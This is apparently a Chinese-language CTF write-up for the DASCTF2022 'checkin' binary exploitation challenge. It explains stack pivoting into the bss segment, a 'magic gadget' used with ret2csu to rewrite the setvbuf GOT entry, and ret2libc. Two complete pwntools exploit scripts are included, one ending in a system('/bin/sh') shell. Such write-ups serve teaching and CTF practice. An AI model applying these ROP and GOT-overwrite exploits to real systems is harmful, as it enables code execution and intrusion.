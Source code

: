 ```yaml
---
title: DASCTF2022_checkin
date: 2022/4/13 20:46:25
tags:
 - 栈迁移
 - PWN
 - magic gadget
categories:
 - DASCTF
---
```

## 总结：

通过这道题的学习和收获有：

1、栈迁移，何为栈？本来栈的定义就是rsp指针与rbp指针之间的就是栈。rsp在哪栈就在哪，因此两次leave，栈就变了两次，而真正跳到变化的栈那步是在最后的ret执行的。也算是对栈迁移又有了一点新的理解。

2、利用magic gadget修改got表

3、这道题的核心考察的就是栈迁移以及payload布局。

4、取magic gadget中的ebx时，如果ebx的值为正，则直接取，如果为负，则加0x100000000取补码。

5、如果可以的话，迁移到bss段尽量迁移到地址高一点的地方。这次打远程的那个exp就是因为bss段迁移的太低了，因为是破坏了某些数据，导致最后执行system函数的时候卡住了。
<!--more-->

## 保护策略：

![image-20220411121501353](/upload/img/image-20220411121501353.png)

## 大致思路：


![image-20220411121504338](/upload/img/image-20220411121504338.png)



可以发现，这道题就一个输入函数，没有输出函数，不过这个read具有16字节的溢出。这个没什么好想的，直接就栈迁移了。

然后输出函数也没有，泄露栈基地址这种情况就排除了，那就只能迁移到bss段。

先考虑一点，溢出16个字节仅仅只能去迁移，我们似乎没有办法去bss段布置数据。不过观察了一下汇编代码，发现read函数的第二个参数是由rbp确定的。

![image-20220411121508220](/upload/img/image-20220411121508220.png)



而我们可以利用溢出来控制rbp，因此就相当于可以控制read的输入的地方了，控制完rbp的话，只能在控制一个返回地址，既然控制rbp就已经相当于控制rsi了，那就返回0x4011BF再读一次（此时的read输入的地址已经是bss段了）。**选取往bss段输入的内容，一定要把地址抬高，我最开始选择的是往0x404100这里写入数据再迁移，到了最后执行system的过程中给卡死了**



read结束之后，又到了leave;ret指令。**leave指令就是mov rsp;rbp  pop rbp**；

执行leave指令的时候，我们的rbp是什么？是我们要控制read函数的rsi来设定的rbp（它现在是bss段地址）

我还是用实际的数据来举例一下吧。假设我第一次控制rbp为（0x404600+0xa0），那rsi的值就是0x404600（因为buf为-0xa0）（即我们输入的数据是从0x404600处开始输入的）我们可以输入0xB0个数据，因此在0x404600+0xa0这个地方写入0x404600。

此时执行read结束后的leave指令是什么情况？（如下图）

![image-20220411121513742](/upload/img/image-20220411121513742.png)

![image-20220411121517837](/upload/img/image-20220411121517837.png)

![image-20220411121521819](/upload/img/image-20220411121521819.png)

![image-20220411121525688](/upload/img/image-20220411121525688.png)

总结一下上面的过程，**原本read读入完我们的数据，<font color=#FF0000 >rbp指向的才是我们想跳转的地方（并非rbp本身）</font>而rbp本身距离我们想跳转的还有0xa0个字节，不过至少rbp就在bss段，执行了第一次leave之后，<font color=#FF0000 >rsp也就变成了rbp的值（同时由于pop rbp，此时的rbp又变成了rbp当初所指向的内容）</font>，此时已经迁移到bss段了（只不过我们还要再迁移到我们布置的数据那里）因此再来一次leave（这个是第二次read输入过去的），由于leave里的mov rsp,rbp，rsp再次被改变，最后完成了迁移（迁移到了我们布置在bss段里的数据）**



至此的话，大体框架就已经完成了。

**剩下的就是在bss段中布局payload了，本地的话非常简单，用magic gadget去将setvbuf函数地址修改为one_gadget地址，然后调用一下setvbuf就完事了。远程的话，roderick师傅给我说，因为动态库的原因，one_gadget用不了，因此只能把setvbuf改成puts函数，然后再劫持程序执行流，完成ret2libc。**

这里先简单说一下magic gadget吧，用ROPgadget --binary checkin --opcode 015dc3  去搜这个gadget的地址。015dc3是这个gadget的机器码（IDA里是看不见的，因为这个是机器码错位得到的）。

这个gadget长这样：

```assembly
add    DWORD PTR [rbp-0x3d], ebx
nop    DWORD PTR [eax+eax*1+0x0]
repz ret
```

核心是在第一行的add上，我们可以利用ret2csu控制rbp和rbx，由此就可以用这个修改函数的got表。以这道题为例，我现在想将setvbuf的真实地址改成one_gadget地址，只需要将rbp-0x3d写成setvbuf的got地址，将ebx放成setvbuf和one_gadget二者在libc库中的偏移即可。再调用这个one_gadget，即可完成修改got表。

这个magic gadget威力还是很大的，如果上述过程不懂的可以再好好想一下或者google一下。（之所以这里不想再详细讲了，是因为我在另一篇文章中详细写了这个东西，只不过因为一些原因那篇文章暂时不能发，这里用到了就简单提一下吧）

一句话概括本题思路，利用栈迁移到bss段，调试布置payload，利用magic gadget修改setvbuf got表为打印函数，最后ret2libc即可。

## exp:

这是打本地的，用的one_gadget。

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
p=process('./ab')
e=ELF('./ab')
setvbuf_got_addr=e.got['setvbuf']
setvbuf_plt_addr=0x401064
bss_addr=0x404100+0xa0
leave_ret_addr=0x4011e2
read_addr=0x4011bf
magic_gadget=0x40113c
csu1=0x40124A
#gdb.attach(p)
payload=160*'a'+p64(bss_addr)+p64(read_addr)
p.send(payload)
payload=p64(0xdeadbeef)+p64(csu1)+p64(0x8905c)#这个0x8905c为setvbuf和one_gadget二者地址在libc库中的差值
payload+=p64(setvbuf_got_addr+0x3d)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(magic_gadget)
payload+=p64(setvbuf_plt_addr)
payload=payload.ljust(160,'b')
payload+=p64(0x404100)+p64(leave_ret_addr)
p.send(payload)
p.interactive()
```



比赛结束，远程的环境关闭了，不过roderick师傅远程打通了，我按照他这个思路写的，动态库换成比赛给的2.31，然后改成remote，远程也是ok的。

```python
#coding:utf-8
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
p=process('./checkin')
#p=remote('node4.buuoj.cn',27544)
e=ELF('./checkin')
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
puts_off=libc.sym['puts']
setvbuf_off=libc.sym['setvbuf']
print(hex(puts_off))
print(hex(setvbuf_off))
pop_rbp_addr=0x40113d
read_got_addr=e.got['read']
setvbuf_got_addr=e.got['setvbuf']
setvbuf_plt_addr=0x401064
bss_addr=0x404600+0xa0
leave_ret_addr=0x4011e2
read_addr=0x4011bf
magic_gadget=0x40113c
csu1=0x40124A
pop_rdi_ret=0x401253
ret_addr=0x40101a
#gdb.attach(p)
if puts_off>setvbuf_off:
    offset=puts_off-setvbuf_off
else:
    offset=puts_off-setvbuf_off+0x100000000

print(hex(offset))
payload=160*'a'+p64(bss_addr)+p64(read_addr)
p.send(payload)
payload=p64(0xdeadbeef)+p64(csu1)+p64(offset)#rbx
payload+=p64(setvbuf_got_addr+0x3d)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(magic_gadget)
payload+=p64(pop_rdi_ret)
payload+=p64(read_got_addr)
payload+=p64(setvbuf_plt_addr)
payload+=p64(pop_rbp_addr)#让rbp去指向0x404600（但是rbp本身是0x4046a0)，这样read结束之后触发了第一次leave，就让rsp的值为0x4046a8（这个地址指向的就是leave;ret）（此时rbp由于pop rbp，自身的值变成了0x404600），然后到ret，再次执行了leave;ret
#第二次leave，rsp才算变成了0x404608，然后ret实现了转移至布置到的system处。
payload+=p64(0x404600+0xa0)
payload+=p64(0x4011BF)
payload=payload.ljust(160,'b')
payload+=p64(0x404600)+p64(leave_ret_addr)
p.send(payload)
read_addr=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
print(hex(read_addr))
libc_base=read_addr-libc.sym['read']
print(hex(libc_base))
sys_addr=libc_base+libc.sym['system']
bin_sh_addr=libc_base+libc.search('/bin/sh').next()
payload=p64(0xdeadbeef)
payload+=p64(ret_addr)#这道题需要栈对齐，具体细节我的另一篇博客上有讲。
payload+=p64(pop_rdi_ret)
payload+=p64(bin_sh_addr)
payload+=p64(sys_addr)
payload+=p64(0xdeadbeef)
sleep(0.2)
p.send(payload)
p.interactive()
```

如果不太理解exp为什么这样写，就多调试N遍（我光调试这远程一个脚本从写到各种调试再到打通再到彻底理解，调试了73遍...)，总会有所收获的。
本人就一菜狗，如果写的有错误的地方，欢迎指正
